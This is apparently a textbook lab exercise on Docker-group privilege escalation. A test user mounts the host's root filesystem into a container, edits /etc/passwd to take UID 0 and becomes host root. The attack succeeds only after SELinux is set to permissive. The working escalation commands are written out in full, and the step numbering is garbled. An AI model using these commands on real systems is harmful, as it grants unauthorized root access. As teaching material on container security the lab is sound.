 1.  Create a user account for Katelyn, my teenage calico kitty, adding her to the `docker` group at the same time:

```
sudo useradd -G docker katelyn
sudo passwd katelyn
```

1.  Log out of your own user account and log back in as Katelyn.
2.  Have Katelyn create a Debian container that mounts the `/` partition of the host machine in the `/homeroot` mountpoint, and that opens a Bash shell session for the root user:

```
docker run -v /:/homeroot -it debian bash
```

> Note how Katelyn has done this without having to use any `sudo` privileges. Also note that there are no blank spaces in the `/:/homeroot` part.

1.  The goal is for Katelyn to make herself the root user on the host machine. In order to do that, she'll need to edit the `/etc/passwd` file to change her own user ID to `0`. To do that, she'll need to install a text editor. (Katelyn prefers vim, but you can use nano if you really want to.) While still within the Debian container, run the following:

```
apt update
apt install vim
```

1.  Have Katelyn `cd` into the host machine's `/etc/` directory and attempt to open the `passwd` file in the text editor:

```
cd /homeroot/etc
vim passwd
```

1.  She won't be able to do it, because SELinux prevents it.
2.  Type `exit` to exit the container.
3.  Log out from Katelyn's account and then log back into your own account.
4.  Place SELinux into permissive mode:

```
sudo setenforce 0
```

1.  Log out from your own account and log back in as Katelyn.
2.  Repeat *steps* *5* through *7*. This time, Katelyn will be able to open the `/etc/passwd` file in her text editor.
3.  In the `passwd` file, have Katelyn find the line for her own user account. Have her change her user ID number to `0`. The line should now look something like this:

```
katelyn:x:0:1002::/home/katelyn:/bin/bash
```

1.  Save the file, and type `exit` to have Katelyn exit the container. Have Katelyn log out of the virtual machine, and then log back in. This time, you'll see that she has successfully logged into the root user shell.
2.  End of lab
